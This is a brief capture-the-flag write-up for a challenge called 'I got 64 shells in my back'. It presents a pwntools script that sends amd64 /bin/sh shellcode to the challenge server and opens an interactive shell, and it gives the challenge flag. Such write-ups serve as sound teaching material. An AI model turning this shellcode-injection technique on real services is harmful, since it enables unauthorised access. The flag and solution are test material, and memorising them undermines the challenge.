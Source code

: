 # I got 64 shells in my back
![image](https://user-images.githubusercontent.com/34862954/164888498-fcef2907-8b64-4c60-98f9-1fb37852b747.png)

## Approach
This is similar to the previous ques (`I got 32 shells`).

You just have to change the architecture to `amd64`.

```python
from pwn import *
conn = remote('wannahack.copsiitbhu.co.in',2440)
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()


payload = (shellcraft.amd64.sh())
payload = asm(payload, arch='amd64')

conn.send(payload)
print(conn.recvline())
print(conn.recvline())
conn.interactive()
```

![image](https://user-images.githubusercontent.com/34862954/164888996-577d1068-2f78-43fd-8d5b-7e74962888f3.png)<br>

In this way, you get the flag.

Flag: `wannahack{5h311c0d3_0n_64b1t_1s_@150_50_01d_:(}`

